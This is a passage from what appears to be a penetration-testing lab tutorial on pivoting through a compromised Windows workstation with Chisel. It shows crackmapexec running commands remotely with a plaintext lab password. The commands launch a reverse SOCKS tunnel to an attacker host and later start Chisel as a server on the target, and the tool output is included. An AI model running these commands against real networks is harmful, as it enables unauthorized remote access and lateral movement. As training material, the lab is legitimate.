 Once we do this, the terminal where we ran the Chisel client command execution should conclude as follows:

### **Terminal Ending After Forcing Chisel to Stop**

```shell-session
$ crackmapexec smb 10.129.204.133 -u grace -p Inlanefreight01! -x "C:\Windows\Temp\chisel.exe client 10.10.14.33:8080 R:socks"

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\grace:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Executed command 
SMB         10.129.204.133  445    MS01             2022/11/07 06:26:10 client: Connecting to ws://10.10.14.33:8080
SMB         10.129.204.133  445    MS01             2022/11/07 06:26:11 client: Connected (Latency 125.6629ms)
```

We can now close the `Chisel server` on our attack host with `CTRL + C`.

### **Closing Chisel on Our Attack Host**

```shell-session
$ ./chisel server --reverse               
                                                 
2022/12/08 16:43:17 server: Reverse tunnelling enabled      
2022/12/08 16:43:17 server: Fingerprint NVnBjtu2DPIuQPxLU0YdcyZhRKc+Myi3ojPzo0T2frQ=
2022/12/08 16:43:17 server: Listening on http://0.0.0.0:8080
2022/12/08 16:44:21 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
^C
```

***

## Windows as the Server and Linux as the Client

We can also do the opposite by starting Chisel as a server on the Windows workstation and using our attack host as the client. To start Chisel as the server, we will use the option `server --socks5`.

### **Starting Chisel as the Server in the Target Machine**

```shell-session
$ crackmapexec smb 10.129.204.133 -u grace -p Inlanefreight01! -x "C:\Windows\Temp\chisel.exe server --socks5"

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\grace:Inlanefreight01! (Pwn3d!)
```

Now to connect to our target machine Chisel server and enable the proxy, we need to use the option `socks` after the IP and port.
